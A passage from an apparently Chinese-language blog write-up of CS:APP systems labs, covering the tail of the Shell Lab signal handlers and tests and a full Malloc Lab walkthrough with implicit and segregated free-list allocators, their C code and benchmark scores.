            sigprocmask(SIG_SETMASK, &prev, NULL);          
        }
        errno = olderrno;
        return;
    }
    ```

    实现一个 SIGINT 信号处理函数，将信号传送给前台进程:

    ```C
    /* 
    * sigint_handler - The kernel sends a SIGINT to the shell whenver the
    *    user types ctrl-c at the keyboard.  Catch it and send it along
    *    to the foreground job.  
    */
    void sigint_handler(int sig) 
    {
        int olderrno = errno;
        int pid;
        sigset_t mask_all, prev;
        Sigfillset(&mask_all);
        Sigprocmask(SIG_BLOCK, &mask_all, &prev);
        if ((pid = fgpid(jobs)) != 0) // 获取当前前台作业的进程组ID
        {
            Sigprocmask(SIG_SETMASK, &prev, NULL);
            Kill(-pid, SIGINT);       // 向整个前台进程组发送SIGINT信号，负号表示整个进程组
        }
        errno = olderrno;
        return;
    }
    ```

    实现一个 SIGSTOP 信号处理函数，将信号传送给前台进程：

    ```C
    /*
    * sigtstp_handler - The kernel sends a SIGTSTP to the shell whenever
    *     the user types ctrl-z at the keyboard. Catch it and suspend the
    *     foreground job by sending it a SIGTSTP.  
    */
    void sigtstp_handler(int sig) 
    {
        int olderrno = errno;
        int pid;
        sigset_t mask_all, prev;
        Sigfillset(&mask_all);
        Sigprocmask(SIG_BLOCK, &mask_all, &prev);
        if ((pid = fgpid(jobs)) > 0)
        {
            Sigprocmask(SIG_SETMASK, &prev, NULL);
            Kill(-pid, SIGSTOP);
        }
        errno = olderrno;
        return;
    }
    ```

8. ### tsh 测试

    实验文件还包括了作者制作的参考 tsh，以及 16 个测试用例，通过跑用例查看结果与参考 tsh 是否相同，就能判断我们写的 tsh 有无问题：

    ```bash
    07-Shell-Lab$ make clean && make all
    rm -f ./tsh ./myspin ./mysplit ./mystop ./myint *.o *~
    gcc -Wall -O2    tsh.c   -o tsh
    gcc -Wall -O2    myspin.c   -o myspin
    gcc -Wall -O2    mysplit.c   -o mysplit
    gcc -Wall -O2    mystop.c   -o mystop
    gcc -Wall -O2    myint.c   -o myint
    07-Shell-Lab$ make test14
    ./sdriver.pl -t trace14.txt -s ./tsh -a "-p"
    #
    # trace14.txt - Simple error handling
    #
    tsh> ./bogus
    ./bogus: Command not found.
    tsh> ./myspin 4 &
    [1] (743488) ./myspin 4 &
    tsh> fg
    fg command requires PID or %jobid argument
    tsh> bg
    bg command requires PID or %jobid argument
    tsh> fg a
    fg: argument must be a PID or %jobid
    tsh> bg a
    bg: argument must be a PID or %jobid
    tsh> fg 9999999
    (9999999): No such process
    tsh> bg 9999999
    (9999999): No such process
    tsh> fg %2
    %2: No such job
    tsh> fg %1
    Job [1] (743488) stoped by signal 19
    tsh> bg %2
    %2: No such job
    tsh> bg %1
    [1] (743488) ./myspin 4 &
    tsh> jobs
    [1] (743488) Running ./myspin 4 &
    07-Shell-Lab$ make rtest14
    ./sdriver.pl -t trace14.txt -s ./tshref -a "-p"
    #
    # trace14.txt - Simple error handling
    #
    tsh> ./bogus
    ./bogus: Command not found
    tsh> ./myspin 4 &
    [1] (743685) ./myspin 4 &
    tsh> fg
    fg command requires PID or %jobid argument
    tsh> bg
    bg command requires PID or %jobid argument
    tsh> fg a
    fg: argument must be a PID or %jobid
    tsh> bg a
    bg: argument must be a PID or %jobid
    tsh> fg 9999999
    (9999999): No such process
    tsh> bg 9999999
    (9999999): No such process
    tsh> fg %2
    %2: No such job
    tsh> fg %1
    Job [1] (743685) stopped by signal 20
    tsh> bg %2
    %2: No such job
    tsh> bg %1
    [1] (743685) ./myspin 4 &
    tsh> jobs
    [1] (743685) Running ./myspin 4 &
    ```

## Malloc Lab

1. ### 实验概览

    Malloc Lab 要求用 C 语言编写一个动态存储分配器 (修改 `mm.c`)，即实现:
    
    - `mm_init`: 初始化分配器
    - `malloc`: 分配内存
    - `free`: 释放内存
    - `realloc`: 重新分配内存
    - `calloc`: 分配并初始化内存为 0
    - `mm_checkheap`: 检查堆的正确性
 
    用如下命令测试：

    ```bash
    08-Malloc-Lab$ make clean && make mdriver
    08-Malloc-Lab$ ./mdriver -t ./traces -V
    ```

    性能表现主要考虑两点：

    - util 空间利用率：`mm_malloc` 或 `mm_realloc` 函数分配且未被 `mm_free` 释放的内存与堆的大小的比值。应该找到好的策略使碎片最小化，以使该比率尽可能接近 1
    - thru 吞吐率：每单位时间完成的最大请求数，即要使时间复杂度尽可能小

2. ### 实现思路

    动态内存分配器维护着一个进程的虚拟内存区域，称为堆。如图：

    { width="360" }

    分配器将堆视为一组大小不同的块的集合来维护，且它们的地址是连续的。将块标记为两种，已分配的块供应用程序使用，空闲块用来分配。怎样来组织这些块呢？课本为我们提供了三种实现方式：

    - Implicit Free List：把所有块连接起来，每次分配时从头到尾扫描合适的空闲块，在实验的第一部分实现了这个做法
    - Explicit Free Lists：它是 Implicit Free List 的进一步优化，在所有空闲块中记录两个指针，分别指向前一个空闲块和后一个空闲块，相当于在链表中又嵌套了一个链表，这样分配的时候就不需要遍历已分配块了，将分配时间从块总数的线性时间缩短为空闲块数量的线性时间

        

    - Segregated Free Lists：维护多个空闲链表，每个链表中的块有大致相等的大小，分配器维护着一个空闲链表数组，每个大小类有一个空闲链表，当需要分配块时只需要在对应的空闲链表中搜索就好了，书上描述了两种分离存储的方法：
        - Simple Segregated Storage：从不合并与分离，每个块的大小就是大小类中最大元素的大小。例如大小类为 {17~32}，则需要分配块的大小在这个区间时均在此对应链表进行分配，并且都是分配大小为 32 的块。这样做，显然分配和释放都是常数级的，但是空间利用率较低
        - Segregated Fit：每个大小类的空闲链表包含大小不同的块，分配完一个块后，将这个块进行分割，并根据剩下的块的大小将其插入到适当大小类的空闲链表中。这个做法平衡了搜索时间与空间利用率，C 标准库提供的 GNU malloc 包就是采用的这种方法。在实验的第二部分实现了这个做法。

3. ### Implicit Free List 实现

    要想分数尽可能高，我们需要使吞吐率尽可能高，空间利用率尽可能好。如果从不重复利用任何块，函数的吞吐率会非常好，而空间利用率会很差；而若进行空闲块的分割合并等操作又会影响吞吐率，因而，就要设计合适的数据结构与算法来平衡两者的关系。

    - 空闲块组织：利用隐式空闲链表记录空闲块
    - 放置策略：如何选择合适的空闲块分配？
        - 首次适配：从头开始搜索空闲链表，选择第一个合适的空闲块
        - 下一次适配：从上一次查询结束的地方开始搜索选择第一个合适的空闲块
        - 最佳适配：搜索能放下请求大小的最小空闲块
    - 分割：在将一个新分配的块放置到某个空闲块后，剩余的部分要进行处理
    - 合并：释放某个块后，要让它与相邻的空闲块合并
    
    无论用什么策略，放置的时间复杂度都为 O(n)，性能很差。

4. #### 空闲块组织

    每个空闲块的结构如下：

    { width="400" }

    - 脚部与头部是相同的，均为 4 个字节，用来存储块的大小，以及表明这个块是已分配还是空闲块
    - 由于要求块双字对齐，所以块大小就总是 8 的倍数，低 3 位总是为 0，因而，我们只需要利用头部和脚部的高 29 位存储块的大小，剩下 3 位的最低位来指明这个块是否空闲，000 为空闲，001 为已分配

    为什么既设置头部又设置尾部呢？这是为了能够以常数时间来进行块的合并。无论是与下一块还是与上一块合并，都可以通过他们的头部或尾部得知块大小，从而定位整个块，避免了从头遍历链表。

    空闲块怎么组织呢？如图：

    

    堆有两个特殊的标记：

    - 序言块：8 个字节，由一个头部和一个脚部组成
    - 结尾块：大小为 0 的头部

    为了消除合并空闲块时边界的考虑，将序言块和结尾块的分配位均设置为已分配。为了保证双字对齐，在序言块的前面还设置了 4 个字节作为填充。

    根据上述结构，可以定义一些方便操作的宏：

    ```C
    /* 头部/脚部的大小 */
    #define WSIZE 4
    /* 双字 */
    #define DSIZE 8

    /* 扩展堆时的默认大小 */
    #define CHUNKSIZE (1 << 12)

    /* 设置头部和脚部的值, 块大小+分配位 */
    #define PACK(size, alloc) ((size) | (alloc))

    /* 读写指针p的位置 */
    #define GET(p) (*(unsigned int *)(p))
    #define PUT(p, val) ((*(unsigned int *)(p)) = (val))

    /* 从头部或脚部获取大小或分配位 */
    #define GET_SIZE(p) (GET(p) & ~0x7)
    #define GET_ALLOC(p) (GET(p) & 0x1)

    /* 给定有效载荷指针, 找到头部和脚部 */
    #define HDRP(bp) ((char*)(bp) - WSIZE)
    #define FTRP(bp) ((char*)(bp) + GET_SIZE(HDRP(bp)) - DSIZE)

    /* 给定有效载荷指针, 找到前一块或下一块 */
    #define NEXT_BLKP(bp) ((char*)(bp) + GET_SIZE(((char*)(bp) - WSIZE)))
    #define PREV_BLKP(bp) ((char*)(bp) - GET_SIZE(((char*)(bp) - DSIZE)))
    ```

5. #### 合并与分割

    先初始化堆:

    ```C
    /* 
    * mm_init - initialize the malloc package.
    */
    int mm_init(void)
    {
        /* 申请16个字节空间: 4个单字，一个单字是4字节，一个双字是8字节 */
        if ((heap_list = mem_sbrk(4 * WSIZE)) == (void *)-1)
            return -1;
        PUT(heap_list, 0);                                /* 对齐 */
        /* 
        * 序言块和结尾块均设置为已分配, 方便考虑边界情况
        */
        PUT(heap_list + (1 * WSIZE), PACK(DSIZE, 1));     /* 填充序言块 */
        PUT(heap_list + (2 * WSIZE), PACK(DSIZE, 1));     /* 填充序言块 */
        PUT(heap_list + (3 * WSIZE), PACK(0, 1));         /* 结尾块 */

        heap_list += (2 * WSIZE);

        /* 扩展空闲空间 */
        if (extend_heap(CHUNKSIZE / WSIZE) == NULL)
            return -1;
        return 0;
    }
    ```

    重点在扩展堆:

    ```C
    /*
    * 扩展heap, 传入的是字数(一个字是4字节)
    */
    void *extend_heap(size_t words)
    {
        /* bp总是指向有效载荷 */
        char *bp;
        size_t size;
        /* 根据传入字数奇偶, 考虑对齐，转换成字节数(总是8的倍数) */
        size = (words % 2) ? (words + 1) * WSIZE : words * WSIZE;

        /* 分配 */
        if ((long)(bp = mem_sbrk(size)) == -1)
            return NULL;
        
        /* 设置头部和脚部 */
        PUT(HDRP(bp), PACK(size, 0));           /* 空闲块头 */
        PUT(FTRP(bp), PACK(size, 0));           /* 空闲块脚 */
        PUT(HDRP(NEXT_BLKP(bp)), PACK(0, 1));   /* 新结尾块，帮助内存分配器识别堆的结束位置 */

        /* 判断相邻块是否是空闲块, 进行合并 */
        return coalesce(bp);
    }
    ```

    扩展堆每次在原始堆的尾部申请空间，mem_sbrk函数返回指向旧堆尾部的指针，因此，可以直接将原始堆的尾部位置设置新空闲块的头部。接下来就是 free，设置一下头部和脚部即可，free 完后注意合并空闲块：

    ```C
    /*
    * mm_free - Freeing a block does nothing.
    */
    void mm_free(void *ptr)
    {
        if (ptr == 0)
            return;
        size_t size = GET_SIZE(HDRP(ptr));

        PUT(HDRP(ptr), PACK(size, 0));
        PUT(FTRP(ptr), PACK(size, 0));
        coalesce(ptr); // 合并空闲块
    }
    ```

    分割空闲块要考虑剩下的空间是否足够放置头部和脚部：

    ```C
    /*
    * 分离空闲块
    * @ bp: 空闲块的有效载荷指针
    * @ asize: 请求分配的对齐后的内存大小
    */
    void place(void *bp, size_t asize)
    {
        size_t csize = GET_SIZE(HDRP(bp));
        
        /* 判断是否能够分离空闲块 */
        if ((csize - asize) >= 2 * DSIZE) 
        {
            // 2 * DSIZE是最小空闲块大小要求，保证剩余空间可以形成一个有效的空闲块
            // 有效空闲块至少需要：头部(4字节) + 有效载荷(至少4字节) + 脚部(4字节) = 12字节，但为了对齐要求，设置为16字节
            PUT(HDRP(bp), PACK(asize, 1));
            PUT(FTRP(bp), PACK(asize, 1));
            bp = NEXT_BLKP(bp);
            PUT(HDRP(bp), PACK(csize - asize, 0));
            PUT(FTRP(bp), PACK(csize - asize, 0));
        }
        /* 设置为填充：这部分剩余空间被称为内部碎片 */
        else
        {
            PUT(HDRP(bp), PACK(csize, 1));
            PUT(FTRP(bp), PACK(csize, 1));
        }
    }
    ```

    合并要分四种情况进行处理：

    

    ```C
    /*
    * 合并空闲块
    * @ bp: 指向刚被释放或新创建的空闲块的有效载荷指针
    * @ return: 指向合并后空闲块的有效载荷指针
    */
    void *coalesce(void *bp)
    {
        size_t prev_alloc = GET_ALLOC(FTRP(PREV_BLKP(bp)));     /* 前一块是否被分配 */
        size_t next_alloc = GET_ALLOC(HDRP(NEXT_BLKP(bp)));     /* 后一块是否被分配 */
        size_t size = GET_SIZE(HDRP(bp));                       /* 当前块大小 */

        /*
        * 四种情况：前后都不空, 前不空后空, 前空后不空, 前后都空
        */
        /* 前后都不空 */
        if (prev_alloc && next_alloc)
        {
            return bp;
        }
        /* 前不空后空 */
        else if (prev_alloc && !next_alloc)
        {
            size += GET_SIZE(HDRP(NEXT_BLKP(bp)));  // 增加当前块大小
            PUT(HDRP(bp), PACK(size, 0));           // 先修改头
            PUT(FTRP(bp), PACK(size, 0));           // 根据头部中的大小来定位尾部
        }
        /* 前空后不空 */
        else if (!prev_alloc && next_alloc)
        {
            size += GET_SIZE(HDRP(PREV_BLKP(bp)));  // 增加当前块大小
            PUT(FTRP(bp), PACK(size, 0));
            PUT(HDRP(PREV_BLKP(bp)), PACK(size, 0));
            bp = PREV_BLKP(bp);                     // 注意指针要变
        }
        /* 都空 */
        else
        {
            size += GET_SIZE(HDRP(PREV_BLKP(bp))) + GET_SIZE(FTRP(NEXT_BLKP(bp)));  // 增加当前块大小
            PUT(FTRP(NEXT_BLKP(bp)), PACK(size, 0));
            PUT(HDRP(PREV_BLKP(bp)), PACK(size, 0));
            bp = PREV_BLKP(bp);
        }
        return bp;
    }
    ```

6. #### 放置策略

    首次适配：从堆的头部开始遍历，找到第一个大小足够的空闲块。

    ```C
    /*
    * 首次适配
    * @ asize: 请求分配的对齐后的内存大小
    * @ return: 指向分配块的有效载荷指针
    */
    void *first_fit(size_t asize)
    {
        void *bp;
        for (bp = heap_list; GET_SIZE(HDRP(bp)) > 0; bp = NEXT_BLKP(bp))
        {
            if ((GET_SIZE(HDRP(bp)) >= asize) && (!GET_ALLOC(HDRP(bp))))
            {
                return bp;
            }
        }
        return NULL;
    }
    ```

    最佳适配：从堆的头部开始遍历，找到第一个大小足够的空闲块，且大小最小。

    ```C
    /*
    * 最佳适配
    * @ asize: 请求分配的对齐后的内存大小
    * @ return: 指向分配块的有效载荷指针
    */
    void *best_fit(size_t asize)
    {
        void *bp;
        void *best_bp = NULL;
        size_t min_size = 0;
        for (bp = heap_list; GET_SIZE(HDRP(bp)) > 0; bp = NEXT_BLKP(bp))
        {
            if ((GET_SIZE(HDRP(bp)) >= asize) && (!GET_ALLOC(HDRP(bp))))
            {
                if (min_size == 0 || min_size > GET_SIZE(HDRP(bp)))
                {
                    min_size = GET_SIZE(HDRP(bp));
                    best_bp = bp;
                }
            }
        }
        return best_bp;
    } 
    ```

7. #### 分配块

    最后就是主体部分 `mm_malloc` 函数，对申请的空间大小按 8 对齐进行舍入，然后根据放置策略查找有无合适的空闲块，如果没有则申请扩展堆:

    ```C
    /* 
    * mm_malloc - Allocate a block by incrementing the brk pointer.
    *     Always allocate a block whose size is a multiple of the alignment.
    */
    void *mm_malloc(size_t size)
    {
        size_t asize;
        size_t extendsize;
        char *bp;
        if (size == 0)
            return NULL;
        if (size <= DSIZE)
            asize = 2 * DSIZE;
        else
            asize = DSIZE * ((size + (DSIZE) + (DSIZE - 1)) / DSIZE);
        // + (DSIZE): 为元数据（头部和脚部）预留空间
        // + (DSIZE - 1): 实现向上取整到最近的DSIZE倍数

        /* 寻找合适的空闲块 */
        if ((bp = first_fit(asize)) != NULL)
        {
            place(bp, asize);
            return bp;
        }
        /* 找不到则扩展堆 */
        extendsize = MAX(asize, CHUNKSIZE);
        if((bp = extend_heap(extendsize / WSIZE)) == NULL)
            return NULL;
        place(bp, asize);
        return bp;
    }
    ```

8. #### 测试结果及分数

    first fit: 

    ```bash
    08-Malloc-Lab$ ./mdriver -t ./traces -V

    Results for mm malloc:
    trace  valid  util     ops      secs  Kops
    0       yes   99%    5694  0.005632  1011
    1       yes   99%    5848  0.005128  1140
    2       yes   99%    6648  0.008440   788
    3       yes  100%    5380  0.006519   825
    4       yes   66%   14400  0.000098147390
    5       yes   92%    4800  0.005718   839
    6       yes   92%    4800  0.005450   881
    7       yes   55%   12000  0.072330   166
    8       yes   51%   24000  0.246358    97
    9       yes   27%   14401  0.038597   373
    10      yes   34%   14401  0.001546  9316
    Total         74%  112372  0.395814   284

    Perf index = 44 (util) + 19 (thru) = 63/100
    ```

    best fit:

    ```bash
    08-Malloc-Lab$ ./mdriver -t ./traces -V

    Results for mm malloc:
    trace  valid  util     ops      secs  Kops
    0       yes   99%    5694  0.006600   863
    1       yes   99%    5848  0.006014   972
    2       yes   99%    6648  0.009425   705
    3       yes  100%    5380  0.006891   781
    4       yes   66%   14400  0.000079181360
    5       yes   96%    4800  0.012323   390
    6       yes   95%    4800  0.011813   406
    7       yes   55%   12000  0.073338   164
    8       yes   51%   24000  0.251622    95
    9       yes   31%   14401  0.039388   366
    10       yes   30%   14401  0.001692  8512
    Total          75%  112372  0.419184   268

    Perf index = 45 (util) + 18 (thru) = 63/100
    ```

9. ### Segregated Free Lists实现 (Segregated Fit)

10. #### 结构设置

    空闲块设置如图结构：

    { width="360" }

    每一个块都有一个头部和脚部，在有效载荷中又分别存放着指向前一个块和后一个块的指针。所以每个空闲块最小为 16 个字节。

    堆的结构也是在原来的 Implict Free List 中进行略微改进，如图：

    

    相当于在原来的堆结构中增加了两点：

    - 堆结构的前面放置不同等价类空闲块的头指针
    - 每个空闲块的有效载荷分出一部分作为前驱和后继指针

    也就是说，我们的这个做法与 Implicit Free List 非常相似，只不过多维护了 n 个链表

    根据链表的结构特点，增加了几个操作宏：

    ```C
    /* 读写指针p的位置 */
    #define GET(p) (*(unsigned int *)(p))
    /* 给定序号，找到链表头节点位置 */
    #define GET_HEAD(num) ((unsigned int *)(long)(GET(heap_list + WSIZE * num)))
    /* 给定bp，找到前驱和后继 */
    #define GET_PRE(bp) ((unsigned int *)(long)(GET(bp)))
    #define GET_SUC(bp) ((unsigned int *)(long)(GET((unsigned int *)bp + 1)))
    ```

    这里指针转换很繁杂，操作完后，一定要将其强制转换为`unsigned int *`，这样，返回的指针加 1 相当于加 32 个字节，便于定位块中其他部位。

11. #### 大小类设置

    由上述结构，每个空闲块最小也要 16 个字节，理论上来说，设置的大小类越多，时间性能要越好，因而设置 20 个大小类：

    $\{ 16\}, \{ 17 \sim 32\}, \{ 33 \sim 64\},\cdots , \{ 2049 \sim 4096\}, \{ 4097 \sim 9194 \}, \cdots, \{ 2^{22}+1 \sim \infty \}$

12. #### 结构建立

    初始化函数：在序言块之前放置 20 个空闲链表头指针，剩下的结构与原来完全一样。

    ```C
    /* 
    * mm_init - initialize the malloc package.
    */
    int mm_init(void)
    {
        /* 申请16个字节空间 + 20个大小类头指针 */
        if ((heap_list = mem_sbrk((4 + CLASS_SIZE) * WSIZE)) == (void *)-1)
            return -1;
        /* 初始化20个大小类头指针 */
        for (int i = 0; i < CLASS_SIZE; i++)
        {
            PUT(heap_list + i * WSIZE, NULL);
        }
        /* 对齐 */
        PUT(heap_list + CLASS_SIZE * WSIZE, 0);                                /* 对齐 */
        /* 
        * 序言块和结尾块均设置为已分配, 方便考虑边界情况
        */
        PUT(heap_list + ((1 + CLASS_SIZE) * WSIZE), PACK(DSIZE, 1));     /* 填充序言块 */
        PUT(heap_list + ((2 + CLASS_SIZE) * WSIZE), PACK(DSIZE, 1));     /* 填充序言块 */
        PUT(heap_list + ((3 + CLASS_SIZE) * WSIZE), PACK(0, 1));         /* 结尾块 */


        /* 扩展空闲空间 */
        if (extend_heap(CHUNKSIZE / WSIZE) == NULL)
            return -1;
        return 0;
    }
    ```

    扩展堆是在结尾块后进行扩展，因而扩展块操作也与原来相同：

    ```C
    /*
    * 扩展heap, 传入的是字数(一个字是4字节)
    */
    void *extend_heap(size_t words)
    {
        /* bp总是指向有效载荷 */
        char *bp;
        size_t size;
        /* 根据传入字数奇偶, 考虑对齐，转换成字节数(总是8的倍数) */
        size = (words % 2) ? (words + 1) * WSIZE : words * WSIZE;

        /* 分配 */
        if ((long)(bp = mem_sbrk(size)) == -1)
            return NULL;
        
        /* 设置头部和脚部 */
        PUT(HDRP(bp), PACK(size, 0));           /* 空闲块头 */
        PUT(FTRP(bp), PACK(size, 0));           /* 空闲块脚 */
        PUT(HDRP(NEXT_BLKP(bp)), PACK(0, 1));   /* 新结尾块，帮助内存分配器识别堆的结束位置 */

        /* 判断相邻块是否是空闲块, 进行合并 */
        return coalesce(bp);
    }
    ```

13. #### 维护链表

    在知道要请求块的大小后，我们要先根据大小定位到相应大小类的头结点：

    ```C
    /* 
    * search - 找到块大小对应的等价类的序号
    */
    int search(size_t size)
    {
        int i;
        for(i = 4; i <= 22; i++)
        {
            if (size <= (1 << i))
                return i - 4;
        }
        return i - 4;
    }
    ```

    等效于如下代码：

    ```C
    int search(size_t size)
    {
        if (size <= (1 << 4)) 
        {
            return 0;
        } 
        else if (size <= (1 << 5)) 
        {
            return 1;
        } 
        else if (size <= (1 << 6)) 
        {
            return 2;
        } 
        else if (size <= (1 << 7)) 
        {
            return 3;
        } 
        else if (size <= (1 << 8)) 
        {
            return 4;
        } 
        else if (size <= (1 << 9)) 
        {
            return 5;
        } 
        else if (size <= (1 << 10)) 
        {
            return 6;
        } 
        else if (size <= (1 << 11)) 
        {
            return 7;
        } 
        else if (size <= (1 << 12)) 
        {
            return 8;
        } 
        else if (size <= (1 << 13)) 
        {
            return 9;
        } 
        else if (size <= (1 << 14)) 
        {
            return 10;
        } 
        else if (size <= (1 << 15)) 
        {
            return 11;
        } 
        else if (size <= (1 << 16)) 
        {
            return 12;
        } 
        else if (size <= (1 << 17)) 
        {
            return 13;
        } 
        else if (size <= (1 << 18)) 
        {
            return 14;
        } 
        else if (size <= (1 << 19)) 
        {
            return 15;
        } 
        else if (size <= (1 << 20)) 
        {
            return 16;
        } 
        else if (size <= (1 << 21))
        {
            return 17;
        } 
        else if (size <= (1 << 22))
        {
            return 18;
        } 
        else 
        {
            return 19;
        }
    }
    ```

    找到头结点后，就涉及到双向链表的插入和删除了，下面编写这两个函数：

    ```C
    /*
    *  将空闲内存块插入到相应的空闲链表中
    */
    void insert(void *bp)
    {
        /* 块大小 */
        size_t size = GET_SIZE(HDRP(bp));
        /* 根据块大小找到应该插入到哪个链表中 */
        int num = search(size);
        /* 空的，直接放 */
        if (GET_HEAD(num) == NULL)
        {
            PUT(heap_list + WSIZE * num, bp);  // 更新链表头指针指向新块
            PUT(bp, NULL);                     // 前驱：设置新块的前驱指针为NULL
            PUT((unsigned int *)bp + 1, NULL); // 后继：设置新块的后继指针为NULL
        } 
        else // 链表不为空，则在链表头部插入新块(头插法)
        {
            PUT((unsigned int *)bp + 1, GET_HEAD(num)); // 设置新块的后继指针指向当前链表的第一个节点
            PUT(GET_HEAD(num), bp);                     // 设置原链表第一个节点的前驱指针指向新块	
            PUT(bp, NULL);                              // 前驱：设置新块的前驱指针为NULL
            PUT(heap_list + WSIZE * num, bp);           // 更新链表头指针指向新块
        }
    }
    ```

    这个函数还是比较容易编写的，主要是要注意以下几点：

    - 插入块总是插入到链表头
    - 指针问题要细致考虑。比如：`heap_list + WSIZE * num`是对应大小类头结点在堆中的位置，而`GET_HEAD(num)`是大小类头结点存放的第一个块的地址

    ```C
    /*
    *  从空闲链表中删除指定的空闲内存块
    */
    void delete(void *bp)
    {
        /* 块大小 */
        size_t size = GET_SIZE(HDRP(bp));
        /* 根据块大小找到头节点位置 */
        int num = search(size);
        /* 
        * 唯一节点, 后继为null, 前驱为null 
        * 头节点设为null
        */
        if (GET_PRE(bp) == NULL && GET_SUC(bp) == NULL) 
        { 
            PUT(heap_list + WSIZE * num, NULL);
        } 
        /* 
        * 最后一个节点 
        * 将该块的前驱节点的后继指针设置为NULL
        */
        else if (GET_PRE(bp) != NULL && GET_SUC(bp) == NULL) 
        {
            PUT(GET_PRE(bp) + 1, NULL);
        } 
        /* 
        * 第一个结点 
        * 将链表头指针更新为指向被删除节点的后继节点
        * 将新的链表第一个节点的前驱指针设置为NULL
        */
        else if (GET_SUC(bp) != NULL && GET_PRE(bp) == NULL)
        {
            PUT(heap_list + WSIZE * num, GET_SUC(bp));
            PUT(GET_SUC(bp), NULL);
        }
        /* 
        * 中间结点 
        * 前驱的后继设为后继
        * 后继的前驱设为前驱
        */
        else if (GET_SUC(bp) != NULL && GET_PRE(bp) != NULL) 
        {
            PUT(GET_PRE(bp) + 1, GET_SUC(bp)); // 将该块的前驱节点的后继指针设置为指向该块的后继节点
            PUT(GET_SUC(bp), GET_PRE(bp));     // 将该块的后继节点的前驱指针设置为指向该块的前驱节点
        }
    }
    ```

    - 考虑四种情况就好，注释写得很详细了
    - 同样要注意指针的问题。比如：`GET_PRE(bp) + 1`是bp指向的块的前驱节点的后继指针，这里很容易 segmentation fault。

14. #### 合并与分割

    合并操作还是与 Implict Free List 一样，是根据空闲块在堆中位置相邻来合并的，与链表排列无关：(但是要记得操作链表相应地insert或delete)

    ```C
    /*
    * 合并空闲块
    * @ bp: 指向刚被释放或新创建的空闲块的有效载荷指针
    * @ return: 指向合并后空闲块的有效载荷指针
    */
    void *coalesce(void *bp)
    {
        size_t prev_alloc = GET_ALLOC(FTRP(PREV_BLKP(bp)));     /* 前一块是否被分配 */
        size_t next_alloc = GET_ALLOC(HDRP(NEXT_BLKP(bp)));     /* 后一块是否被分配 */
        size_t size = GET_SIZE(HDRP(bp));                       /* 当前块大小 */

        /*
        * 四种情况：前后都不空, 前不空后空, 前空后不空, 前后都空
        */
        /* 前后都不空 */
        if (prev_alloc && next_alloc)
        {
            insert(bp);
            return bp;
        }
        /* 前不空后空 */
        else if (prev_alloc && !next_alloc)
        {
            delete(NEXT_BLKP(bp));                  // 将后面的块从其链表中删除
            size += GET_SIZE(HDRP(NEXT_BLKP(bp)));  // 增加当前块大小
            PUT(HDRP(bp), PACK(size, 0));           // 先修改头
            PUT(FTRP(bp), PACK(size, 0));           // 根据头部中的大小来定位尾部
        }
        /* 前空后不空 */
        else if (!prev_alloc && next_alloc)
        {
            /* 将其前面的快从链表中删除 */
            delete(PREV_BLKP(bp));
            size += GET_SIZE(HDRP(PREV_BLKP(bp)));  // 增加当前块大小
            PUT(FTRP(bp), PACK(size, 0));
            PUT(HDRP(PREV_BLKP(bp)), PACK(size, 0));
            bp = PREV_BLKP(bp);                     // 注意指针要变
        }
        /* 都空 */
        else
        {
            /* 将前后两个块都从其链表中删除 */
            delete(NEXT_BLKP(bp));
            delete(PREV_BLKP(bp));
            size += GET_SIZE(HDRP(PREV_BLKP(bp))) + GET_SIZE(FTRP(NEXT_BLKP(bp)));  // 增加当前块大小
            PUT(FTRP(NEXT_BLKP(bp)), PACK(size, 0));
            PUT(HDRP(PREV_BLKP(bp)), PACK(size, 0));
            bp = PREV_BLKP(bp);
        }
        /* 空闲块准备好后,将其插入合适位置 */
        insert(bp);
        return bp;
    }
    ```

    - 操作与 Implict Free List 几乎相同
    - 额外的操作就是合并前要将前后的空闲块从它的原链表中删除，合并完成后要将新的空闲块插入对应的空闲链表中

    分离空闲块也只是加入了将分离出来的空闲块插入相应空闲链表的操作:

    ```C
    /*
    * 分离空闲块
    * @ bp: 空闲块的有效载荷指针
    * @ asize: 请求分配的对齐后的内存大小
    */
    void place(void *bp, size_t asize)
    {
        size_t csize = GET_SIZE(HDRP(bp));
        
        delete(bp); // 块已分配，从空闲链表中删除
        /* 判断是否能够分离空闲块 */
        if ((csize - asize) >= 2 * DSIZE) 
        {
            // 2 * DSIZE是最小空闲块大小要求，保证剩余空间可以形成一个有效的空闲块
            // 有效空闲块至少需要：头部(4字节) + 有效载荷(至少4字节) + 脚部(4字节) = 12字节，但为了对齐要求，设置为16字节
            PUT(HDRP(bp), PACK(asize, 1));
            PUT(FTRP(bp), PACK(asize, 1));
            /* bp指向空闲块 */
            bp = NEXT_BLKP(bp);
            PUT(HDRP(bp), PACK(csize - asize, 0));
            PUT(FTRP(bp), PACK(csize - asize, 0));
            /* 加入分离出来的空闲块 */
            insert(bp);
        }
        /* 设置为填充：这部分剩余空间被称为内部碎片 */
        else
        {
            PUT(HDRP(bp), PACK(csize, 1));
            PUT(FTRP(bp), PACK(csize, 1));
        }
    }
    ```

15. #### 分配块

    Segregated Fit 的分配策略就很清晰了：

    - 先从对应的大小类的空闲链表中查找
    - 如果找不到，则到下一个更大的大小类查找
    - 如果都找不到，则扩展堆

    ```C
    /*
    * 适配
    */
    void *find_fit(size_t asize)
    {
        int num = search(asize);
        unsigned int* bp;
        /* 如果找不到合适的块，那么就搜索下一个更大的大小类 */
        while (num < CLASS_SIZE) 
        {
            bp = GET_HEAD(num);
            /* 不为空则寻找 */
            while (bp) 
            {
                if (GET_SIZE(HDRP(bp)) >= asize)
                {
                    return (void *)bp;
                }
                /* 用后继找下一块 */
                bp = GET_SUC(bp);
            }
            /* 找不到则进入下一个大小类 */
            num++;
        }
        return NULL;
    }
    ```

16. #### 测试结果及分数

    ```bash
    08-Malloc-Lab$ ./mdriver -t ./traces -V

    Results for mm malloc:
    trace  valid  util     ops      secs  Kops
    0       yes   98%    5694  0.000185 30795
    1       yes   98%    5848  0.000286 20419
    2       yes   97%    6648  0.000306 21718
    3       yes   99%    5380  0.000158 34051
    4       yes   66%   14400  0.000298 48338
    5       yes   93%    4800  0.000284 16895
    6       yes   90%    4800  0.000260 18490
    7       yes   55%   12000  0.000316 38035
    8       yes   51%   24000  0.000434 55363
    9       yes   25%   14401  0.042608   338
    10      yes   29%   14401  0.002024  7115
    Total         73%  112372  0.047158  2383

    Perf index = 44 (util) + 40 (thru) = 84/100
    ```

    这个提升是巨大的！与 Implict Free List 进行对比，本方法空间利用率略微降低了，而吞吐量提高了。

## Proxy Lab

1. ### 实验概览

